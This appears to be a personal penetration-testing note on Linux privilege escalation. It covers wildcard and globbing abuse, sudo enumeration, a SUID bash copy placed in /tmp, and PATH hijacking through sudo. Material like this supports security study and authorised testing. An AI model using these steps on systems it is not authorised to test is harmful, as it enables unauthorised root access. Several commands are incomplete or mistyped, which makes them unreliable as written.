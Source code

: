 Wildcard characters exist and indicative of a need to generalise something, so can we control what will be selected, because of a requirement to generalise?
```bash
# Application -> Action on `*` 
# Due to a wildcard (*)  can be defined to privilege escalate), rather than `x` of `X`, which specifies what action is operated on
# Look for:
* # Any number of characters
? # Any single character
[ ] # Any characters enclosed can match any single one at the defined position
~ # Denotes home directory of uid 
- # Denotes a range of characters
```

Bash Globbing - File Name Expansion - [[Regular-Expressions]]; explanation below
```bash
# * wildcards 
# each command effective achieves the same result
ls && ls * && echo *
# Regexs are also possible!
# For PrivEsc
# Bash is not context aware regarding passed arguments
# Filename restrictions on Linux are almost non-existent - we can have filenames called:
touch ./--help
```
Simply any bash scripting that contains `*` check GTFObins for `shell` of the command containoing a `*` argument - from: [Tib3rius - Weird PrivEsc Techniques YouTube](https://www.youtube.com/watch?v=wyeRPSjnNjY)
## Sudo 

Is the `sudo` or similar like `doas` vulnerable as software or is there an misconfiguration either in  implementation of `sudo` or how `sudo` can be used with configuration of filesystem, binaries, services, etc?

`sudo cat /etc/sudoers` specifies which users or groups are allowed and with what privilege to run specific programs. Sudo and similar program are a common target for [[Binary-Exploitation]] as inherently privilege changes at some point during execution. 

`sudo` usage requires `tty`
```bash
# Sudo -l but no password NO problem!
sudo -l # Or specific custom applications/scripts
# Dork the version or be squdontgettoescalate!
sudo -V  # Check sudo version..
cat /etc/lsb-release # ...and OS version as exploitation may be OS specific

sudo id                 # get id of sudo
visudo                  # sudo policy file
```

If a script or code is writable requires `sudo` permissions to execute:
```bash
# Copy a new bash
cp /bin/bash /tmp/shell
# Add to script/code
chown root:root; chmod 4755 /tmp/shell
# Escalate
./shell -p
# If you can path hijack a binary from $vuln script provide a path
sudo PATH=/dev/shm:$PATH $vulnScript
# sudo -u to abuse file permission to call sudo through unsafe variable input, handling
sudo -u username unsafefileofusername # somehow pass /bin/bash as paramtres
```
